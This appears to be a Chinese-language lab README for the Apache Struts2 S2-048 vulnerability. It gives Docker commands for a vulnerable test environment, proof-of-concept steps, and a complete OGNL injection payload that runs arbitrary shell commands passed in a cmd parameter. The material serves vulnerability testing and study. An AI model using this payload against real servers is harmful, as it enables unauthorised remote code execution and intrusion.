




## Struts2-struts1-plugin 插件远程代码执行漏洞(S2-048) 环境

### 漏洞信息

 * [S2-048 公告](https://cwiki.apache.org/confluence/display/WW/S2-048)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-048
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-048
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### PoC

> 例如目标地址为：http://127.0.0.1:32768/

1. 访问本例目标地址

> http://127.0.0.1:32768/integration/editGangster.action



2. 如下图在Gangster Name字段输入 Payload



3.提交后可看到表达式被执行



#### EXP

核心部分如下：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd=#parameters.cmd[0]).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

需要再指定一个 cmd 参数，传入要执行的命令：



### 参考链接

* [S2-048 公告](https://cwiki.apache.org/confluence/display/WW/S2-048)
* [【漏洞分析】Struts2高危漏洞S2-048分析](http://bobao.360.cn/learning/detail/4078.html)
